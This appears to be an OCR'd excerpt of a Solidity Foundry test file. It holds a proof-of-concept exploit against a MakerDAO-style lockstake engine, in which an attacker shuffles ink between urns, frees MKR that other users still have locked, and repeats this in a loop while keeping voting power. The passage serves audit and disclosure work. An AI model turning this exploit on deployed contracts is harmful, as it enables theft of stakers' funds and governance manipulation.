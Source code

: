 ```solidity
    function testAttack1Loop1Urn() public {
        console.log("MKR before the attack on attacker: %e", mkr.balanceOf(attacker));
        vm.prank(attacker);
        // VD with attacker as the owner
        address attackersVD = voteDelegateFactory.create();

        // Select this VD as the holder of eoaUrn MKR
        vm.prank(minedUrnCreator); engine.selectVoteDelegate(eoaUrn, attackersVD);
        console.log("Voting power on attackersVD before: %e", ChiefLike(chief).deposits(attackersVD));
        
        vm.startPrank(attacker); 

        // Move .ink to gem. Required so we can `frob` (add .ink) to urn2 from eoaUrn's gem
        dss.vat.frob(ilk, eoaUrn, eoaUrn, address(0), -int(mkrAmount), 0);

        // Open urn2
        address urn2 = engine.open(0);

        // Select the most popular voteDelegate that has enough MKR
        engine.selectVoteDelegate(urn2, voteDelegate);
        // Transfer lsMKR and urn.ink there
        lsmkr.transferFrom(eoaUrn, urn2, mkrAmount);
        dss.vat.frob(ilk, urn2, eoaUrn, address(0), int(mkrAmount), 0);

        // Withdraw from urn2. Note: MKR is still locked on chief through VD.stake on urn1
        // So we withdraw from other users
        engine.free(urn2, attacker, mkrAmount);

        // Now can continue voting using attackersVD, but also got back 85% of the MKR
        uint mkrBalanceAfterAttack = mkr.balanceOf(attacker);
        console.log("MKR after the attack on attacker: %e", mkrBalanceAfterAttack);
        console.log("Voting power on attackersVD after: %e", ChiefLike(chief).deposits(attackersVD));

        /* Loop */
        uint newMkrAmt = mkrBalanceAfterAttack;

        // Ensure main VD (the one the attacker steals from) has enough funds
        deal(address(mkr), users[0], mkrAmount * 10);
        vm.startPrank(users[0]); 
        engine.lock(engine.getUrn(users[0], 0), mkrAmount * 10, 0);
        vm.roll(block.number + 1);
       
        // Lock what's left, just repeat the steps above
        vm.startPrank(attacker);
        for (uint i; i < 20; i++) {
            console.log("Loop #", i);

            engine.lock(eoaUrn, newMkrAmt, 0);
            dss.vat.frob(ilk, eoaUrn, eoaUrn, address(0), -int(newMkrAmt), 0);
            lsmkr.transferFrom(eoaUrn, urn2, newMkrAmt);
            dss.vat.frob(ilk, urn2, eoaUrn, address(0), int(newMkrAmt), 0);
            engine.free(urn2, attacker, newMkrAmt);

            newMkrAmt = mkr.balanceOf(attacker);
            console.log("MKR after the attack on attacker: %e", newMkrAmt);
            console.log("Voting power on attackersVD after: %e", ChiefLike(chief).deposits(attackersVD));
        }
    }

    function testAttack4SendOneInk() public {
```
